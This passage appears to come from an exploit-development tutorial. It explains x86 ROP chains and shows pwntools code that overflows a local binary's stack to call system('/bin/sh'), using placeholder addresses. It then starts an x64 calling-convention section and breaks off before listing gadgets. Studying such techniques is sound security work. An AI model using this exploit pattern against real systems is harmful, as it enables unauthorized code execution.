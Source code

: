 Using **pwntools**, we prepare the stack for the ROP chain execution as follows aiming to execute `system('/bin/sh')`, note how the chain starts with:

1. A `ret` instruction for alignment purposes (optional)
2. Address of `system` function (supposing ASLR disabled and known libc, more info in [[ret2lib/README.md|Ret2lib]])
3. Placeholder for the return address from `system()`
4. `"/bin/sh"` string address (parameter for system function)

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
    ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
    system_addr,   # Address of system(). Execution will continue here after the ret gadget
    0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
    bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
```
## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

- Uses the **System V AMD64 ABI** calling convention on Unix-like systems, where the **first six integer or pointer arguments are passed in the registers `RDI`, `RSI`, `RDX`, `RCX`, `R8`, and `R9`**. Additional arguments are passed on the stack. The return value is placed in `RAX`.
- **Windows x64** calling convention uses `RCX`, `RDX`, `R8`, and `R9` for the first four integer or pointer arguments, with additional arguments passed on the stack. The return value is placed in `RAX`.
- **Registers**: 64-bit registers include `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, and `R8` to `R15`.

#### **Finding Gadgets**

For our purpose, let's focus on gadgets that will allow us to set the **RDI** register (to pass the **"/bin/sh"** string as an argument to **system()**) and then call the **system()** function. We'll assume we've identified the following gadgets:

```